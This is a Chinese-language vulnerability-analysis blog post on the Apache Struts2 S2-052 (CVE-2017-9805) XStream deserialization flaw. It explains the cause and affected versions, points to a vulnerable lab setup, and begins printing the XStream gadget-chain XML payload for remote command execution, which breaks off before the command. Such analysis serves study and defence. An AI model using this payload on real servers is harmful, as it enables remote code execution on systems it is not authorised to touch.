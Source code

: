 ```yaml
---
layout: post
title: "S2-052"
subtitle: 'S2-052漏洞分析'
author: "taomujian"
header-style: text
tags:
  - Struts2 漏洞分析
---
```


## 前言

> 这是Struts系列第十四篇,继续加油!

## Struts简介

> Struts2是用Java语言编写的一个基于MVC设计模式的Web应用框架

## 漏洞复现

### 漏洞简介

> S2-052漏洞,又名CVE-2017-9805漏洞

> 当Struts2使用了Struts2-Rest-Plugin插件时,如果http请求头中的Content-type为 application/xml时会使用XStreamHandler解析器实例化XStream对象来反序列化处理传入的XML数据,并且在默认情况下是可以引入任意对象的(针对1.5.x以前的版本),所以可以通过反序列化引入任意类造成远程命令执行漏洞.

> [漏洞详情地址](https://cwiki.apache.org/confluence/display/WW/S2-052)

#### 漏洞成因

> 当Struts2使用了Struts2-Rest-Plugin插件时,如果http请求头中的Content-type为 application/xml时会使用XStreamHandler解析器实例化XStream对象来反序列化处理传入的XML数据,并且在默认情况下是可以引入任意对象的(针对1.5.x以前的版本),所以可以通过反序列化引入任意类造成远程命令执行漏洞.

#### 漏洞影响范围

> Struts 2.1.6 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12

### 环境搭建

> 解压缩[地址](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-052)中的Struts-VulnTest.zip,使用IDEA打开解压后的目录,然后配置好Tomcat和Maven就可以运行了.

### Payload

#### 执行命令

```java
<map>
    <entry>
        <jdk.nashorn.internal.objects.NativeString>
        <flags>0</flags>
        <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
            <dataHandler>
            <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
                <is class="javax.crypto.CipherInputStream">
                <cipher class="javax.crypto.NullCipher">
                    <initialized>false</initialized>
                    <opmode>0</opmode>
                    <serviceIterator class="javax.imageio.spi.FilterIterator">
                    <iter class="javax.imageio.spi.FilterIterator">
                        <iter class="java.util.Collections$EmptyIterator"/>
                        <next class="java.lang.ProcessBuilder">
```